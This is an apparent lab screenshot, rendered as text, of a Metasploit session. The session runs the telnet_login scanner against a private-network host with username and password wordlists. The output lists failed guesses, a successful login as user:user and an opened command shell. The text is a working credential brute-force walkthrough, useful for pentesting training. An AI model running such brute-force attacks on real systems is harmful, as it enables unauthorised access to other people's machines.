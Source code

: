 
Interact with a module by name or index. For example info 6, use 6 or use post/windows/gather/credentials/mremote                                                                                     

msf6 > use 5
msf6 auxiliary(scanner/telnet/telnet_login) > show options

Module options (auxiliary/scanner/telnet/telnet_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the curre
                                                nt database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the
                                                list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current d
                                                atabase (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://docs.metasploit.c
                                                om/docs/using-metasploit/basics/using-metasploit.
                                                html
   RPORT             23               yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per hos
                                                t)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by
                                                space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/telnet/telnet_login) > set RHOSTS 192.168.0.101
RHOSTS => 192.168.0.101
msf6 auxiliary(scanner/telnet/telnet_login) > set USER_FILE /root/NetworkPentesting/telnet/user.txtUSER_FILE => /root/NetworkPentesting/telnet/user.txt
msf6 auxiliary(scanner/telnet/telnet_login) > set PASS_FILE /root/NetworkPentesting/telnet/pass.txtPASS_FILE => /root/NetworkPentesting/telnet/pass.txt
msf6 auxiliary(scanner/telnet/telnet_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/telnet/telnet_login) > exploit

[!] 192.168.0.101:23      - No active DB -- Credential data will not be saved!
[-] 192.168.0.101:23      - 192.168.0.101:23 - LOGIN FAILED: admin:password (Incorrect: )
[-] 192.168.0.101:23      - 192.168.0.101:23 - LOGIN FAILED: admin:user (Incorrect: )
[-] 192.168.0.101:23      - 192.168.0.101:23 - LOGIN FAILED: admin:msfadmin (Incorrect: )
[-] 192.168.0.101:23      - 192.168.0.101:23 - LOGIN FAILED: admin:toor (Incorrect: )
[-] 192.168.0.101:23      - 192.168.0.101:23 - LOGIN FAILED: admin:ajay (Incorrect: )
[-] 192.168.0.101:23      - 192.168.0.101:23 - LOGIN FAILED: admin:cracker (Incorrect: )
[-] 192.168.0.101:23      - 192.168.0.101:23 - LOGIN FAILED: admin:book (Incorrect: )
[-] 192.168.0.101:23      - 192.168.0.101:23 - LOGIN FAILED: admin:kali (Incorrect: )
[-] 192.168.0.101:23      - 192.168.0.101:23 - LOGIN FAILED: admin:pass123 (Incorrect: )
[-] 192.168.0.101:23      - 192.168.0.101:23 - LOGIN FAILED: admin: (Incorrect: )
[-] 192.168.0.101:23      - 192.168.0.101:23 - LOGIN FAILED: user:password (Incorrect: )
[+] 192.168.0.101:23      - 192.168.0.101:23 - Login Successful: user:user
[*] 192.168.0.101:23      - Attempting to start session 192.168.0.101:23 with user:user
[*] Command shell session 1 opened (192.168.0.114:36953 -> 192.168.0.101:23) at 2023-02-28 11:05:59 +0530
[*] 192.168.0.101:23      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
